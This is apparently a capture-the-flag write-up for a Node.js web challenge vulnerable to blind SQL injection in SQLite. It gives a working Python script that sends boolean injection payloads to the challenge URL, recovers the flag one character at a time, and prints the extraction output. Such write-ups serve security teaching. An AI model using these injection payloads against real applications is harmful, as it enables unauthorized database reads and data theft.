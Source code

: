 <h1> walter's crystal shop </h1>


<p> This web challenge is a Nodejs web application that is vulnerable to blind SQL injection in SQLite.
 We can retrieve the flag with a boolean blind sql, and automate the process in python with the reqests library. </p>

```python
import requests


char = [chr(l) for l in range(65,91)] + [chr(l) for l in range(97,123)] + [str(l) for l in range(0,9)] + ["{", "}", "_", "@", "#", "$", "%",]

url = "https://walters-crystal-shop.chal.nbctf.com/crystals?name=Amethyst"
s = requests.Session()


def get_length(s, url) -> int:
    for n in range(100):
        payload = f"'and (SELECT length(flag) FROM flag) = {n}--"
        urlVuln = url + payload

        page = s.get(urlVuln).text

        if page.find('Amethyst') != -1:
            print(n)
            return n

def get_flag(s, url, char, length) -> str:
    flag = ""
    for n in range(length + 1):
        for c in char:
            payload = f"'and (SELECT hex(substr(flag,{n},1)) FROM flag) = hex('{c}')--'"
            urlVuln = url + payload

            page = s.get(urlVuln).text
            
            if page.find('Amethyst') != -1:
                flag += c
                print(flag)
                break
    return flag


length = get_length(s, url)
flag = get_flag(s, url, char, length)
print(flag)
```

<p> And we get the flag ! </p>

```
nb
nbc
nbct
nbctf
nbctf{
nbctf{h
nbctf{h0
nbctf{h0p

...

nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```
